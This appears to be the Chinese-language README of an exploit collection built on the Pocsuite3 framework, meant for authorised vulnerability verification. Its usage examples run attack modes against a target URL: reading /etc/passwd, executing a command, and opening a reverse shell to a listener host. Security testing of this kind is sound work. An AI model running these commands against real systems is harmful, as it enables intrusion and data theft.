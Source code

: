 # PeiQi-WiKi-PocSuite3 文库🐑

## 关于项目

项目用于安全人员在授权的情况下，更加快速的使用POC/EXP来验证漏洞

漏洞的验证使用由知道创宇开发的Github开源项目Pocsuite3框架，在多个开源漏洞验证的框架中，Pocsuite3集合了漏洞利用和验证等功能，而使用Python语言来编写POC/EXP则大大减少了编写所花费的时间，也方便安全研究人员扩展使用方式，在此十分感谢框架的开发人员～

Github地址 : https://github.com/knownsec/pocsuite3

![](image/image-1.png)

## 使用需知

POC/EXP 仅仅只供对已授权的目标使用测试，对未授权目标的测试PeiQi文库不承担责任，均由本人自行承担

本文库中的漏洞均为公开的漏洞收集，如果文库中的漏洞出现敏感内容产生了部分影响，请及时联系作者删除漏洞，望谅解~

如在使用中发现Bug，可以通过issues形式提交给作者进行修复与更新

## 公众号

![](image/image-2.png)

## 关于使用

```
文件读取验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --filename "/etc/passwd"
```
![](image/image-3.png)

```
命令执行验证
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --attack --command "id"
```
![](image/image-4.png)

```
反弹Shell验证   
python3 cli.py -u "http://xxx.xxx.xxx.xxx" -r pocs/poc.py --shell --lhost "xxx.xxx.xxx.xxx"
```
![](image/image-5.png)

## 最后
```
别忘了Github下载完给个小星星⭐
```

[![Stargazers over time](https://starchart.cc/PeiQi0/PeiQi-WIKI-PocSuite3.svg)](https://github.com/PeiQi0/PeiQi-WIKI-PocSuite3)

